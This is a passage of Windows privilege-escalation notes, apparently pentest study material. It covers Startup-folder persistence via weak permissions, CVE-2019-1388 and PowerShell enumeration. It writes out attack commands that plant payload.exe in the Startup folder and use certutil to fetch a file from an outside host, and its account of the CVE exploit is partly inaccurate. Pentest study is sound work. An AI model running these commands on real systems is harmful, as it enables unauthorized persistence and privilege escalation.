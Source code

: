 Commands and Methodology:

    Checking Startup Application Permissions:
        icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup": Checks the permissions on the Startup folder, which can be exploited if permissions are too lax.

        bash

    icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

Exploiting Weak Permissions:

    copy /y payload.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\payload.exe": Replaces or adds a malicious executable in the Startup folder to gain persistence.

    bash

        copy /y payload.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\payload.exe"

Methodology and Tactics:
Startup applications can be a weak point in a system's security if permissions are not properly configured. By placing or replacing executables in the Startup folder, attackers can ensure their payloads are executed with elevated privileges every time the system boots.
12. Escalation Path: CVE-2019-1388

Resources:

    ZeroDayInitiative CVE-2019-1388
    Rapid7 CVE-2019-1388

Commands and Methodology:

    Exploiting CVE-2019-1388:
        certutil -urlcache -split -f "http://example.com/Exploit.cer" exploit.cer: Downloads and executes a certificate file to exploit CVE-2019-1388, which allows for privilege escalation via User Account Control (UAC) bypass.

        bash

        certutil -urlcache -split -f "http://192.168.1.100/Exploit.cer" exploit.cer

Methodology and Tactics:
This vulnerability involves exploiting the way Windows handles certain processes, allowing attackers to bypass UAC and gain elevated privileges. The tactic is to exploit this during post-exploitation to gain SYSTEM access without triggering UAC prompts.
13. Capstone Challenge

Resources:

    Basic PowerShell for Pentesters
    Mounting VHD Files
    Capturing MSSQL Creds

Commands and Methodology:

    PowerShell Commands for Enumeration:
        Get-LocalUser: Retrieves a list of local users, which can be useful for identifying potential targets for exploitation.

        bash
